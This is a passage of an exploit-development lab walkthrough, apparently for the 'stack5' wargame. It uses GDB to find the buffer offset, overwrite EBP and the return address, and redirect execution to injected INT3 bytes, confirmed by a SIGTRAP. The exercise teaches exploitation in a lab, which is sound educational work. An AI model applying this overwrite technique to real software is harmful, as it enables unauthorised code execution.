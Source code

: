 > 8.  Copy the output of `step 7`, paste into GDB, and press ENTER
>
> 9.  See the bytes of input:
>     (gdb) x/94b $esp
>
> 10. (gdb) step
>
>     Expected Output:
>      Cannot access memory at address 0x42424246
>
> 11. See the $ebp register and observe BCDE(42 43 44 45):
>     (gdb) info registers $ebp
>
>     Expected Output:
>      ebp    0x45444342	0x45444342
>                             ^EDCB since little endian
>
> 12. Print and remember the address $esp points to
>     (gdb) info registers $esp
>
>     Example Output:
>      esp    0xbffffcc0	0xbffffcc0
>
> 13. `(gdb) quit`
>      Enter y if asked to Quit anyway
>
> 14. $ `python -c "print('A' * 72 + '\xc0\xfc\xff\xbf' + '\xCC'*4)" > /tmp/arg`
>                                                          ^This is an Interrupt
>                                                           for INTEL CPUs!!!!!!
>
> 15. $ gdb stack5
>
> 16. `(gdb) set disassembly-flavor intel`
>
> 17. Print registers, subset of stack, and upcoming intructions
>     after each step
>
>     `(gdb) define hook-stop`
>     `> python print '------------------------'`
>     `> info registers`   #prints registers
>     `> python print '------------------------'`
>     `> x/24wx $esp`      #prints stack
>     `> python print '------------------------'`
>     `> x/5i $eip`        #prints instructions
>     `> python print '------------------------'`
>     `> end`
>
> 18. Break after user input:
>     `(gdb) break *(main+22)`
>
> 19. `(gdb) r < /tmp/arg`
>
> 20. See your input in the stack
>     `(gdb) x/x $esp`
>
>     You should see `0xcccccccc`
>
> 21. `(gdb) continue`
>
>     Expected Output:
>      Program received signal SIGTRAP, Trace/breakpoint trap.
